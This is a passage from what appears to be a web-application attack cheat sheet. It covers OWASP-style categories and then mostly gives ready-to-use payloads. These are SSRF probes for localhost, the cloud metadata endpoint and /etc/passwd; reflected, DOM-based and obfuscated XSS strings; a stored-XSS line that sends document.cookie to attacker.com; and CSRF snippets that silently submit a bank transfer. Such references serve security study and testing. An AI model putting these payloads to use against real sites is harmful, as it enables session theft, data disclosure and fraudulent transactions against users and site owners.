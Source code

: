#### 8. Data Integrity Failures
- Insecure deserialization
- Unsigned/unverified updates
- CI/CD pipeline compromises

#### 9. Logging Failures
- Insufficient logging
- Log injection attacks
- Logs not monitored

#### 10. Server-Side Request Forgery (SSRF)
```bash
# Testing SSRF
http://target.com/fetch?url=http://localhost
http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/
http://target.com/fetch?url=file:///etc/passwd
```

### Cross-Site Scripting (XSS)

#### Reflected XSS
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
```

#### Stored XSS
```html
<script>document.location='http://attacker.com/?c='+document.cookie</script>
```

#### DOM-based XSS
```javascript
<script>
var pos=document.URL.indexOf("name=")+5;
document.write(document.URL.substring(pos,document.URL.length));
</script>
```

#### XSS Payload Obfuscation
```html
<IMG SRC=javascript:alert('XSS')>
<BODY ONLOAD=alert('XSS')>
<iframe src=javascript:alert('XSS')>
```

### Cross-Site Request Forgery (CSRF)
```html
<img src="http://bank.com/transfer?amount=1000&to=attacker" style="display:none">

<form action="http://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
</form>
<script>document.forms[0].submit();</script>
```
